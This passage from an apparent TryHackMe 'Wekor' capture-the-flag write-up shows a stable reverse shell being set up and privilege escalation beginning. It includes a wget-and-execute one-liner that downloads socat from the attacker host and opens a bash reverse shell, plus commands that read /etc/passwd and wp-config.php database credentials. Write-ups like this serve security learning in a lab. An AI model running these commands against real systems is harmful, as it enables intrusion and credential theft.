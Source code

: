 I'm `www-data`!

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/…/binaries/linux/x86/socat-2.0.0-b8]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@osboxes:/$ wget http://10.18.61.134/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.18.61.134:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Wekor]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/09/23 07:51:24 socat[42520] N opening character device "/dev/pts/2" for reading and writing
2022/09/23 07:51:24 socat[42520] N listening on AF=2 0.0.0.0:4444
                                                                 2022/09/23 07:51:28 socat[42520] N accepting connection from AF=2 10.10.10.35:45424 on AF=2 10.18.61.134:4444
                                                                   2022/09/23 07:51:28 socat[42520] N starting data transfer loop with FDs [5,5] and [7,7]
                                               www-data@osboxes:/$ 
www-data@osboxes:/$ stty rows 22 columns 107
www-data@osboxes:/$ export TERM=xterm-256color
www-data@osboxes:/$ ^C
www-data@osboxes:/$ 
```

# Privilege Escalation

## www-data to Orka

```
www-data@osboxes:/$ cat /etc/passwd | grep /bin/bash                      
root:x:0:0:root:/root:/bin/bash
Orka:x:1001:1001::/home/Orka:/bin/bash
```

**Found 1 user: `Orka`**

**Found MySQL credentials in `/var/www/html/site.wekor.thm/wordpress/wp-config.php`:**
```
www-data@osboxes:/var/www/html/site.wekor.thm/wordpress$ cat wp-config.php
[...]
/** MySQL database username */
define( 'DB_USER', 'root' );

/** MySQL database password */
define( 'DB_PASSWORD', '{Redacted}' );
```

Tried password reuse for user `Orka`, but no dice.

**Internal open ports:**
```
www-data@osboxes:/$ netstat -tunlp
[...]
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3010          0.0.0.0:*               LISTEN      -   
```
